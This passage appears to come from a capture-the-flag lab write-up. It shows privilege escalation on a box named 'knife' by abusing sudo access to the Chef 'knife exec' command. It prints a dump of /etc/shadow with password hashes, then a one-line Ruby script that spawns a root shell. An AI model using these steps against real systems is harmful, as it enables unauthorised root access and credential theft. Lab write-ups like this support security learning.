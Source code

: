 ```bash
bin  components  embedded  gem-version-manifest.json  gitbin  LICENSE  LICENSES  version-manifest.json  version-manifest.txt
```
so basically on this box ruby commands can be run using /usr/bin/knife.
running /usr/bin/knife we get the big help menu.
```bash
james@knife:~$ sudo /usr/bin/knife
<-----SNIP------>
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
```
Now let's run our ex.rb script
```bash
james@knife:~$ sudo /usr/bin/knife exec ex.rb

root:$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1:18754:0:99999:7:::
daemon:*:18659:0:99999:7::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18753:0:99999:7:::
sshd:*:18753:0:99999:7:::
systemd-coredump:!!:18753::::::
james:$6$S4BgtW0nZi/8w.C0$pREFaCmQmAue0cm6eTgvF.vFdhsIdTr5q6PdrMVNCw4hc7TmlSqAcgMz0yOBG7mT6GcoH9gGbo.zLLG/VeT31/:18754:0:99999:7:::
lxd:!:18753::::::
opscode:!:18754::::::
opscode-pgsql:!:18754::::::
```
Now we can write our own ruby script to run the system commands.
I wrote a simple ruby script to run /bin/bash
```bash
james@knife:~$ echo "system('/bin/bash')" > test.rb
james@knife:~$ cat test.rb 
system('/bin/bash')
james@knife:~$ sudo /usr/bin/knife exec test.rb 
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:# cat root.txt
```